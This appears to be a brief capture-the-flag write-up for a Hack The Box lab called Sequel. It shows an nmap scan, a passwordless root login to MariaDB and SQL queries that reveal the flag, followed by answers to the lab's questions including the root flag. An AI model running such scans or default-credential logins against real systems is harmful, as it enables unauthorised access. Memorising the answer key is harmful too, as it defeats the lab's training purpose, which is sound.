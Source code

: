 # Sequel - Very Easy

```shell
nmap -T4 -p 1-10000 -A 10.129.239.50

mysql -h 10.129.239.50 -u root -p -P 3306
#login into MariaDB

show databases;

use htb;

show tables;

select * from config;
#gives flag
```

1. What does the acronym SQL stand for? - Structured Query Language

2. Which port running mysql do we find? - 3306

3. What community-developed MySQL version is the target running? - MariaDB

4. What switch do we need to use in order to specify a login username for the MySQL service? - -u

5. Which username allows us to log into MariaDB without providing a password? - root

6. What symbol can we use to specify within the query that we want to display everything inside a table? - *

7. What symbol do we need to end each query with? - ;

8. Submit root flag? - 7b4bec00d1a39e3dd4e021ec3d915da8
